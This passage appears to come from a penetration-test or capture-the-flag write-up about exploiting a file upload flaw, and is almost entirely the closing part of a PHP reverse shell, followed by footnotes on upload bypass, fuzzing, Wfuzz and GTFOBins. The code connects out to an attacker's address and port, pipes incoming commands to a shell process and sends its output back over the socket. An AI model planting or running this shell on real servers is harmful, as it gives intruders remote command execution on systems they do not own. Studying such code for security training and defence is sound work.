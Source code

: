 ```php

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

```

[^1]: [Arbitrary File Upload Vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
[^2]: [File upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)
[^3]: [Fuzzing](https://www.sysadminok.es/blog/ciberseguridad/que-es-y-para-que-sirve-el-fuzzing-un-enfoque-integral-a-la-seguridad-de-software/)
[^4]: [Wfuzz Github](https://wfuzz.readthedocs.io/en/latest/)
[^5]: [GTFOBins docu](https://gtfobins.github.io)